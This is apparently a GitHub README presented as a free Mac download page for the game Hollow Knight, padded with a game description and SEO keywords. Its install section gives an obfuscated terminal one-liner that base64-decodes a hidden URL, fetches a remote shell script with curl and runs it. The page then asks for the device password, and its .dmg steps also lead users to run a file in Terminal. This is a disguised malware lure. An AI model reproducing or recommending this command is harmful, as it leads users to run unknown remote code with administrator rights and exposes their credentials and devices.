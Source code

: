 # Hollow Knight Mac Download - Epic Adventure Game

![Hollow Knight Screenshot 1](https://media.indiedb.com/images/members/4/3086/3085621/profile/capsule_616x353.jpg)

---

### 🔽 Download Hollow Knight for Mac

[![Download Now](https://img.shields.io/badge/Download_Hollow_Knight-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/hollowknight)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Hollow Knight for Mac?

Hollow Knight is an award-winning action-adventure game set in the vast, interconnected world of Hallownest. Developed by Team Cherry, this beautifully hand-drawn 2D game combines challenging combat, intricate exploration, and a deep, immersive storyline. Players take on the role of the Knight, a small, silent warrior, as they traverse through hauntingly beautiful landscapes, battle terrifying creatures, and uncover the mysteries of a fallen kingdom.

The game features a non-linear progression system, allowing players to explore at their own pace and discover hidden areas, powerful abilities, and secret lore. With its tight controls, responsive gameplay, and atmospheric soundtrack, Hollow Knight offers a captivating experience that has earned critical acclaim and a dedicated fanbase. Whether you're a fan of Metroidvania-style games or just looking for a rich, engaging adventure, Hollow Knight delivers an unforgettable journey.

Hollow Knight is fully optimized for macOS, ensuring smooth performance and seamless gameplay on Apple Silicon (M1/M2) and Intel-based Macs. The game supports high-resolution displays and offers customizable controls to suit your playstyle.

![Hollow Knight Screenshot 2](https://i.ytimg.com/vi/7Kak-TrSXLA/maxresdefault.jpg)

---

## Key Features & Benefits

- 🎮 Award-winning 2D action-adventure gameplay  
- 🖌 Stunning hand-drawn art style and animations  
- 🌍 Vast, interconnected world to explore  
- ⚔️ Challenging combat and boss battles  
- 🎵 Atmospheric soundtrack and sound design  
-   Optimized for macOS (M1/M2 and Intel)  

Whether you're a seasoned gamer or new to the genre, Hollow Knight offers hours of exploration, combat, and discovery in a beautifully crafted world.

---

## 🔍 Keywords

Hollow Knight for Mac, Hollow Knight Mac Download, Hollow Knight for Mac Download, Hollow Knight Mac, Hollow Knight Download Mac, Hollow Knight Download for Mac, Hollow Knight full version, Mac Download Hollow Knight, Download Mac Hollow Knight, Download Hollow Knight Mac, Download Hollow Knight for Mac
